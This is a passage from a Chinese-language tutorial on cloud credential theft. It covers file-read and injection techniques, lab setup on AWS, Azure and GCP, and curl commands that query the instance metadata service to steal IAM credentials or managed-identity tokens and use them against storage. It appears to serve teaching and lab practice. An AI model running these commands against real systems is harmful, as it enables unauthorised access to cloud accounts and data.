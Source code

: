 **利用技巧**：
- **文件读取漏洞**：通过文件读取漏洞，攻击者可以读取配置文件。
- **备份泄露**：通过备份文件，攻击者可以获取配置文件。

### 2.4 代码注入
**攻击手法**：攻击者通过代码注入攻击，窃取运行时环境中的凭证。

**变种**：
- **SQL注入**：通过SQL注入攻击，攻击者可以窃取数据库连接字符串。
- **命令注入**：通过命令注入攻击，攻击者可以执行恶意命令，获取凭证。

**利用技巧**：
- **环境变量读取**：通过代码注入，攻击者可以读取环境变量中的凭证。
- **配置文件读取**：通过代码注入，攻击者可以读取配置文件中的凭证。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
**AWS环境**：
1. 创建一个EC2实例，确保IMDSv1启用。
2. 为该实例分配一个IAM角色，具有S3读取权限。
3. 在实例中安装curl工具。

**Azure环境**：
1. 创建一个Azure VM，启用Managed Identity。
2. 为该VM分配一个角色，具有Storage Blob Data Reader权限。
3. 在VM中安装curl工具。

**GCP环境**：
1. 创建一个GCP VM，启用Service Account。
2. 为该Service Account分配一个角色，具有Storage Object Viewer权限。
3. 在VM中安装curl工具。

### 3.2 攻击步骤

**AWS IMDSv1攻击**：
1. 通过SSRF攻击访问元数据服务：
   ```bash
   curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
   ```
2. 获取临时凭证：
   ```bash
   curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
   ```
3. 使用临时凭证访问S3：
   ```bash
   AWS_ACCESS_KEY_ID=<access-key-id> AWS_SECRET_ACCESS_KEY=<secret-access-key> AWS_SESSION_TOKEN=<session-token> aws s3 ls
   ```

**Azure Managed Identity攻击**：
1. 访问元数据服务获取令牌：
   ```bash
   curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -H "Metadata: true"
   ```
2. 使用令牌访问Storage Blob：
   ```bash
   curl -X GET -H "Authorization: Bearer <token>" https://<storage-account>.blob.core.windows.net/<container>?restype=container&comp=list
   ```
